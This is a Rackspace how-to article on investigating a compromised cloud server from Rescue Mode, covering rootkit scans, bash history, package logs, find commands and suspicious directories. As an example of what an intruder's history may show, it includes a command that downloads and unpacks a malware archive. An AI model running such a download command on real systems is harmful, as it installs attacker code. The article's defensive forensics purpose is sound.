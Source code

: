 ```yaml
---
node_id: 3437
title: 'Checking for a Security Compromise: Rescue Mode Investigation'
type: article
created_date: '2013-04-26'
created_by: Rose Contreras
last_modified_date: '2013-12-04'
last_modified_by: Jered Heeschen
product: Cloud Servers
product_url: cloud-servers
---
```


In the previous article, [Checking for a Security Compromise: Back Doors
and
Intruders](/how-to/checking-for-a-security-compromise-backdoors-and-intruders),
we covered some basic techniques to collect the necessary information
for tracking intruders. In this second part of **Security Checks During
a Possible Compromise**, we will discuss using the [Cloud Control
Panel's](https://mycloud.rackspace.com/) **Rescue Mode** to take a
closer look at your system.

### Introduction

We cannot trust binaries on a compromised cloud server since they can be
trojaned by attackers. Fortunately the [Cloud Control
Panel](https://mycloud.rackspace.com/) provides us with a Rescue Mode to
help troubleshoot these issues. We can use Rescue Mode to better
understand how our server was compromised and to identify
non-compromised files before backing up the data.

### Rescue Mode

We cannot rely on our cloud server's operating system since it might be
compromised as well. The attacker could have trojaned binaries such as
'ls,' 'find,' and 'netstat,' so their output could mislead you.
Consequently, we must use a different operating system environment to
safely investigate the compromise. This can be done by using the Rescue
Mode feature provided in the [Cloud Control
Panel](https://mycloud.rackspace.com/). Refer to [Rackspace Cloud
Essentials 3 - Rescue Mode on Linux Cloud
Servers](/how-to/rackspace-cloud-essentials-3-rescue-mode-on-linux-cloud-servers-1) for
more information.

### Scanning rootkits: chkrootkit and rkhunter

We recommend you install the following tools to scan your files. Use the
following instructions to guide your rootkit installation:

#### Scanning for Rootkits with chkrootkit

We recommend installing chkrootkit using your package manager rather
than compiling from source.

    apt-get install chkrootkit

We need to run chkrootkit against the mounted file system of the normal
cloud server:

    chkrootkit -r /mnt/demo

#### Scanning for Rootkits with rkhunter

Log into your terminal application and move to your sources directory:

    cd ~/sources

Once there, download the latest version of rkhunter from the
[SourceForge download
area](http://sourceforge.net/projects/rkhunter/files/):

    http://sourceforge.net/projects/rkhunter/files/

After you install rkhunter following this article, you can run it
against /mnt/demo.

    rkhunter -c -r /mnt/demo

### Checking Last Commands

It is important to check what users ran before the cloud server was
compromised. This can give us an idea of how the cloud server security
was breached.

The **.bashhistory** file contains the last commands used with the bash
shell. We need to check .bashhistory files in each users' home
directories. The most important .bashhistory file is the one belonging
to root: /root/.bashhistory.

A compromised cloud server may have entries like the following:

    wget http://malware.tar.gz
    gunzip malware.tar.gz
    tar xf malware.tar

### Checking Installed Packages

All changes to the packaging system are stored in /var/log/dpkg.log on
Debian-based distributions.

    tail 50 /mnt/demo/var/log/dpkg.log

This file will show the last 50 lines of the dpkg.log file. We should
check this file for any suspicious activity like installed or removed
packages, or a modified bus.

### Find Command

The `find` command is usually used to find filenames with specific
patterns; however, we can also use it to find the files
modified/accessed within a specific time period.

For example, we can find all files in /etc owned by root that have been
modified within the last two days:

    find /mnt/demo/etc -user root -mtime -2

Our available options are:

    -atime: when the file was last accessed
    -ctime: when the file's permissions were last changed
    -mtime: when the file's data was last modified

Note that there is a minus sign in front of '2' in the last example. The
'time' options for the find command are expressed in 24-hour increments,
and the sign in front of the number can indicate 'less than' or 'greater
than'. Thus '-2' means we want to find files which were modified within
the last two days. If we want to find files that were modified more than
2 days ago, we would need to put a plus sign in front of the 2:

    find /mnt/demo/etc -user root -mtime +2

There are also versions of the atime, ctime, and mtime arguments that
measure time in minutes:

    -amin: when (in minutes) the file was last accessed
    -cmin: when (in minutes) the file's permissions were last changed
    -mmin: when (in minutes) the file's data was last modified

#### Example:

We will now find all files in our cloud server owned by the demo user
that have been accessed within the last five minutes:

    find /mnt/demo -user demo -amin -5

The following list of find command options might be useful during the
compromised cloud server investigation:

    -nouser: shows output not associated with an existing userid
    -nogroup: shows output not associated with an existing groupid
    -links n: file has n links
    -newer file: file was modified more recently than file
    -perm mode: file has mode permissions

### Checking Logs and Suspicious files

We can find the culprit by checking the following:

-   suspicious files in /tmp, /var/tmp, /dev/shm, /var/spool/samba,
    /var/spool/squid, and /var/spool/cron.
-   We can also look at log files in the following directory:

        /var/log directory

    For example, auth.log records user logon information including their
    IP address.

### Summary

In the previous article, [Security Checks for a Possible Compromise:
Backdoors and
Intruders](/how-to/checking-for-a-security-compromise-backdoors-and-intruders),
we learned some techniques we can use to discover backdoors and track
intruders on our cloud server. This will help us avoid the situation or
mistake that led to the compromise, thus minimizing future chances of
getting hacked again in the same way. In this article we learned how to
investigate our cloud server in rescue mode.

Whether it be due to to viruses, file corruption, machine failure, or
other unforeseen mishaps, the possibility of data loss is real. In order
to avoid the disruption such a loss can cause, make it a regular
practice to back up your files regularly. Below are some excellent
options to help you secure your files:

-   [Rackspace Cloud Backup](http://www.rackspace.com/cloud/backup/) is
    a good alternative for Cloud Servers customers. It is fully
    integrated with Cloud Servers, and is a file-based backup
    alternative to whole image server backup.
-   For those who prefer to do it themselves - [Backing Up Your Flles
    with
    rsync](/how-to/backing-up-your-files-with-rsync).


